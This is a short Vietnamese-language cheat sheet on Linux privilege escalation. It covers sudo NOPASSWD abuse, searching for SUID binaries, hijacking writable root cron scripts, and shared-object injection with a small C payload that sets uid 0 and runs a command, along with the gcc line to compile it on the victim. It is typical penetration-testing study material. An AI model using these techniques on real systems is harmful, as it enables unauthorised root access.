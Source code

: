 # 1. sudo -l

Điều đầu tiên cần làm là check xem user hiện tại có quyền gì không? Được như bên dưới thì ngon:

```console
$ sudo -l
User example may run the following commands on localhost:
   ... NOPASSWD: /bin/bash
   ...
```

Đơn giản là có thể chạy với quyền sudo mà không cần password gì, lúc này chỉ cần `sudo /bin/bash` cái là ngon.
> Lưu ý: phải chạy y sì thằng `NOPASSWD` (`sudo /bin/bash`, chứ không phải `sudo bash` :)))

# 2. SUID

Tìm các file có SUID Bit:

```console
$ find / -perm -u=s -type f 2>/dev/null
```

Sau đó tham khảo cách "mượn quyền" tại trang [này](https://gtfobins.github.io/)

# 3. crontab

List các cronjobs:

```console
$ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

Example:

```console
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```

Dựa vào kết quả trên, check quyền của file được đặt cronjob bằng `ls -la` xem có thể edit được không. Như ở trên có file `/var/www/html/booked/cleanup.py` có vẻ khả quan, nếu có quyền `wr` thì chỉ cần thay thế nội dung là xong.

# 4. Shared object injection.

Nếu gặp 1 process nào đó chạy với quyền root, sử dụng một shared object file (.so) và có quyền ghi trong thư mục chứa .so đó, hoặc là có quyền ghi với chính file .so đó luôn, có thể thực hiện so injection.

```c 
// pwn.c 
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("some_cmd");
}
```

Gửi file đó lên victim, và compile:

```console 
$ gcc -shared -fPIC -nostartfiles -o so_file_name.so pwn.c 
```

Nếu gặp phải lỗi **"gcc: error trying to exec ‘cc1‘: execvp: No such file or directory"** thì có thể làm thế này:

```console 
$ find /usr/ -name "*cc1*" 2>/dev/null
...
...
/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/cc
...
...

$ export PATH=$PATH:/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/
```
